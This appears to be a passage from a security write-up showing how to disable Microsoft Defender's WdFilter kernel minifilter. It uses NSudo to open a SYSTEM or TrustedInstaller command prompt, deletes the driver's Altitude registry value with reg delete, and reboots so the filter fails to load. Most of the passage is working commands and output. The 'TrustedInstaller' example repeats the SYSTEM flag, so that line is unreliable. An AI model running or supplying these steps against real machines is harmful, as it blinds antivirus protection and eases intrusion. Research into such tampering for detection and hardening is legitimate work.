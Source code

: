 It is possible to impersonate such privileges to run a Command Prompt with SYSTEM / TrustedInstaller contexts, enabling all privileges and Integrity Levels. Some notable tools that can do this are [NSudo](https://github.com/M2Team/NSudo/releases),  [superUser](https://github.com/mspaintmsi/superUser) and [PSExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec).

In this case, Nsudo has been used to create a cmd.exe process as SYSTEM (S) / TrustedInstaller (T), enabling all privileges (E): 

```
# Run as SYSTEM context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

OR

# Run as TrustedInstaller context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

# New command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
[snip]
```

Upon attempting to execute the reg.exe command to delete the "Altitude number" associated with the WdFilter driver, it was confirmed that the operation was successful.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg delete "HKLM\SYSTEM\CurrentControlSet\Services\WdFilter\Instances\WdFilter Instance" /v Altitude /f
The operation completed successfully.
````

Next, reboot the computer (recommended) or wait a few minutes (inconsistent: ~20 mins) for the changes to take effect.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> shutdown /r /t 0
```

It is noted that the WdFilter kernel minidriver fails to load on the next reboot because the Altitude registry subkey has been deleted breaking its functionality.
